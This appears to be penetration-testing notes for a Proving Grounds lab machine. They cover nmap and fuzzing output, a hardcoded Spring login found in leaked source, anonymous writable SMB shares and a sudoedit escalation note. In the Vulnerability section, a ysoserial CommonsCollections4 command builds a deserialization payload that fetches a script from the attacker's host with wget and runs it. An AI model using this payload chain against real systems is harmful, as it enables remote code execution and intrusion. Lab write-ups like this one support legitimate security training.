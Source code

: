 # Export
```md
export IP="192.168.96.116"
export URL="http://192.168.96.116:80/FUZZ"
```

<hr>

# Vulnerability
+ Plaintext password found in one of the web application configuration file.
+ SMB anonymous access and write.
+ Java unsafe deserialization.
	+ Payload:
```bash
┌──(root💀jaeng)-[~/Documents/PG/cassios/smb]
└─# java -jar ../ysoserial-master-d367e379d9-1.jar CommonsCollections4 'wget 192.168.49.69:8080/unsafe_deserialize.sh -O /tmp/unsafe_deserialize.sh && bash /tmp/unsafe_deserialize.sh' > recycler.ser
```
+ `sudoedit` Unauthorized Privilege Escalation bug

<hr>

# Credentials Panel
+ (Web 8080): `recycler:DoNotMessWithTheRecycler123`

<hr>

# Nmap
```bash
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 36:cd:06:f8:11:72:6b:29:d8:d8:86:99:00:6b:1d:3a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjISDfZJSrhxHPJNdFOaYN/6v9xvTQ0nvVxY3PC93qraoFeHMiwAYDxzcaY47E965uLcjgBfqicRVIziukrnVDn9R14LZmq74kbAmaf6PcOyjL3iN9uQWE/7umx3rG98dVugfW9SzuHgorDE7anOV8ewsepOSx61qnb0p/p2IID7ExFXgh8UqtMAD1viVHdvOhHFZL4BbzVj57LBaRvEDC2lx8mSvwxRmJyw7Jqm3+S640y6pet4QgLSrWdQt8nh/dW/U9HPkwfqrytd7tdnIRhuR/L+E6H8rKycI/y012pdIlE+wtNY2xgjGm0mQfmVH1sDEN/OGVw7TdH6BEc9x
|   256 7d:12:27:de:dd:4e:8e:88:48:ef:e3:e0:b2:13:42:a1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC08uXC/2TmrLqWbD0sPKxdflt2pC5fpX9UHyK0G3f/HMGwFQQlpjuBnK8F8piwnSjXyDHRSFGa/bGXi9n3gIf0=
|   256 c4:db:d3:61:af:85:95:0e:59:77:c5:9e:07:0b:2f:74 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMWphiQ1WtEPUDgeKuwnZ018EFPqR/4MiEj85mmMdGvk
80/tcp   open  http        syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS))
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS)
|_http-title: Landed by HTML5 UP
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 4.10.4 (workgroup: SAMBA)
8080/tcp open  http-proxy  syn-ack ttl 63
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Sun, 08 Aug 2021 02:23:47 GMT
|     Connection: close
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title></title>
|     <link rel="stylesheet" href="/css/main.css">
|     </head>
|     <body>
|     <div class="small-container">
|     <div class="flex-row">
|     <h1>Recycler Management System</h1>
|     </div>
|     <div class="flex-row">
|     <img src="/images/factory.jpg" class="round-button">
|     </div> 
|     </div>
|     <br>
|     <div class="small-container">
|     <div class="flex-small">Control system for the factory
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Sun, 08 Aug 2021 02:23:47 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sun, 08 Aug 2021 02:23:47 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-favicon: Unknown favicon MD5: 4EABB75877508499240896BC9E184C86
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS POST
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_http-trane-info: Problem with XML parsing of /evox/about
```

<hr>

# Web Application
#### Port 80
+ Discovery

```bash
.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9]
.hta                    [Status: 403, Size: 206, Words: 15, Lines: 9]
assets                  [Status: 301, Size: 237, Words: 14, Lines: 8]
backup_migrate          [Status: 301, Size: 245, Words: 14, Lines: 8]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9]
download                [Status: 200, Size: 1479862, Words: 5695, Lines: 5435]
images                  [Status: 301, Size: 237, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 9088, Words: 591, Lines: 217]
```

+ `/backup_migrate` directory contains `recycler.tar` tar file.
+ `recycler.tar` contains the source code of the Recycler Management System website?.
+ `WebSecurityConfig.java` contains web credentials.
```md
...
        @Bean
        @Override
        public UserDetailsService userDetailsService() {
                UserDetails user =
                         User.withDefaultPasswordEncoder()
                                .username("recycler")
                                .password("DoNotMessWithTheRecycler123")
                                .roles("USER")
                                .build();
...
```

+ `DashboardController.java` reveals valid a user `samantha`.

```md
...
String filename = "/home/samantha/backups/recycler.ser";
...
```

+ `/download` contains a `download.zip` zip file - source code of the `port 80` web server. 


#### Port 8080
+ Discovery

```bash
home                    [Status: 200, Size: 746, Words: 47, Lines: 37]
login                   [Status: 200, Size: 1097, Words: 134, Lines: 38]
```

+ Java ver1.8
+ Spring framework
+ Common-Collections4
+ `pom-bak.xml`
```md
...
                    <groupId>org.apache.commons</groupId>
                    <artifactId>commons-collections4</artifactId>
                    <version>4.0</version>
...
```

+ `/check` will deserialize `recycler.ser` → Remote Code Execution
+ `/save` will serialize `recycler.ser`

<hr>

# SMB
+ File shares

```md
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Samantha Konstan Disk      Backups and Recycler files
        IPC$            IPC       IPC Service (Samba 4.10.4)
```

+ `Samantha Konstan` allows anonymous login and also writable

```md
smb: \> ls
  .                                   D        0  Thu Oct  1 16:28:46 2020
  ..                                  D        0  Thu Sep 24 13:38:10 2020
  recycler.ser                        N      145  Sat Aug  7 22:51:50 2021
  readme.txt                          N      478  Thu Sep 24 13:32:50 2020
  spring-mvc-quickstart-archetype      D        0  Thu Sep 24 13:36:11 2020
  thymeleafexamples-layouts           D        0  Thu Sep 24 13:37:09 2020
  resources.html                      N    42713  Thu Sep 24 13:37:41 2020
  pom-bak.xml                         N     2187  Thu Oct  1 16:28:46 2020
```
